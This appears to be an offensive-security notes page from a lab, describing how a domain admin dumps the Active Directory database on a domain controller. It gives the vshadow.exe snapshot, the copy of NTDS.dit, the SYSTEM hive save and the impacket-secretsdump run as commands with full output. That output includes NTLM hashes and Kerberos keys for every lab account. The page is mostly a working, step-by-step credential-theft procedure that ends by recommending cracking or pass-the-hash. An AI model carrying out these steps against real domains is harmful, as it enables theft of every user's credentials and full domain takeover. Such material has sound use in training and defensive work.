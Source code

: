 ```yaml
---
description: >-
  A Shadow Copy, also known as Volume Shadow Service (VSS) is a Microsoft backup
  technology that allows creation of snapshots of files or entire volumes.
---
```


# Shadow Copies



## Recap

To manage volume shadow copies, the Microsoft signed binary _vshadow.exe_ is offered as part of the Windows SDK. Domain admins have the ability to abuse the vshadow utility to create a snapshot of the Active Directory Database **NTDS.dit**.

Once we've obtained **NTDS.dit** we can extract every single user credential offline on our Kali host.



## Attack

### Create Snapshot

From an elevates shell we can use the **vshadow.exe** command and create a backup of the Active Directory Database.

```powershell
C:\Tools>vshadow.exe -nw -p  C:

VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.


(Option: No-writers option detected)
(Option: Create shadow copy set)
- Setting the VSS context to: 0x00000010
Creating shadow set {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...
- Adding volume \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\] to the shadow set...
Creating the shadow (DoSnapshotSet) ...
(Waiting for the asynchronous operation to finish...)
Shadow copy set succesfully created.

List of created shadow copies:


Querying all shadow copies with the SnapshotSetID {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...

* SNAPSHOT ID = {c37217ab-e1c4-4245-9dfe-c81078180ae5} ...
   - Shadow copy Set: {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5}
   - Original count of shadow copies = 1
   - Original Volume name: \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\]
   - Creation Time: 9/19/2022 4:31:51 AM
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
   - Originating machine: DC1.corp.com
   - Service machine: DC1.corp.com
   - Not Exposed
   - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  Auto_Release No_Writers Differential


Snapshot creation done.
```

<mark style="color:red;">**NOTE:**</mark> Pay attention to the above command output, the <mark style="color:yellow;">**shadow copy device**</mark> name is the path we will use to copy.\


```
\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

### Moving the Database file.

The next step is to copy the shadow copy to the C:\ root directory and get ready for ex-filtration.

```powershell
C:\Tools>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
   1 file(s) copied.
```

### Save System Hive

The last step before ex-filtration is to save the SYSTEM hive from the Windows Registry.

```
C:\>reg.exe save hklm\system c:\system.bak
The operation completed successfully.
```



### Extracting Credentials

Once we've succesfully ex-filtrated the database back to our Kali host we can use impacket to extract all the credentials.

```shell-session
kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xbbe6040ef887565e9adb216561dc0620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 98d2b28135d3e0d113c4fa9d965ac533
[*] Reading and decrypting hashes from ntds.dit.bak
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:eda4af1186051537c77fa4f53ce2fe1a:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
stephanie:1104:aad3b435b51404eeaad3b435b51404ee:d2b35e8ac9d8f4ad5200acc4e0fd44fa:::
jeff:1105:aad3b435b51404eeaad3b435b51404ee:2688c6d2af5e9c7ddb268899123744ea:::
jeffadmin:1106:aad3b435b51404eeaad3b435b51404ee:e460605a9dbd55097c6cf77af2f89a03:::
iis_service:1109:aad3b435b51404eeaad3b435b51404ee:4d28cf5252d39971419580a51484ca09:::
WEB04$:1112:aad3b435b51404eeaad3b435b51404ee:87db4a6147afa7bdb46d1ab2478ffe9e:::
FILES04$:1118:aad3b435b51404eeaad3b435b51404ee:d75ffc4baaeb9ed40f7aa12d1f57f6f4:::
CLIENT74$:1121:aad3b435b51404eeaad3b435b51404ee:5eca857673356d26a98e2466a0fb1c65:::
CLIENT75$:1122:aad3b435b51404eeaad3b435b51404ee:b57715dcb5b529f212a9a4effd03aaf6:::
pete:1123:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
jen:1124:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
CLIENT76$:1129:aad3b435b51404eeaad3b435b51404ee:6f93b1d8bbbe2da617be00961f90349e:::
[*] Kerberos keys from ntds.dit.bak
Administrator:aes256-cts-hmac-sha1-96:56136fd5bbd512b3670c581ff98144a553888909a7bf8f0fd4c424b0d42b0cdc
Administrator:aes128-cts-hmac-sha1-96:3d58eb136242c11643baf4ec85970250
Administrator:des-cbc-md5:fd79dc380ee989a4
DC1$:aes256-cts-hmac-sha1-96:fb2255e5983e493caaba2e5693c67ceec600681392e289594b121dab919cef2c
DC1$:aes128-cts-hmac-sha1-96:68cf0d124b65310dd65c100a12ecf871
DC1$:des-cbc-md5:f7f804ce43264a43
krbtgt:aes256-cts-hmac-sha1-96:e1cced9c6ef723837ff55e373d971633afb8af8871059f3451ce4bccfcca3d4c
krbtgt:aes128-cts-hmac-sha1-96:8c5cf3a1c6998fa43955fa096c336a69
krbtgt:des-cbc-md5:683bdcba9e7c5de9
...
[*] Cleaning up...
```

We managed to obtain NTLM hashes and Kerberos keys for every AD user, which can now be further cracked or used as-is through pass-the-hash attacks.
